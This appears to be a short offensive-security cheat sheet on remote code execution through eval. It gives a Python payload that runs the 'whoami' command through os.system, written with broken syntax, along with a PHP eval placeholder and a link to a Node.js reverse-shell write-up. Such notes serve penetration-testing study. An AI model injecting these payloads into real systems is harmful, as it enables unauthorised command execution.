 # RCE with eval function

## PYTHON

```python
eval()"__import__('os').system('whoami')")
```

## PHP

```php
eval(phpcode) 
```

## JAVASCRIPT (NODEJS)

- [https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44](https://medium.com/@sebnemK/node-js-rce-and-a-simple-reverse-shell-ctf-1b2de51c1a44)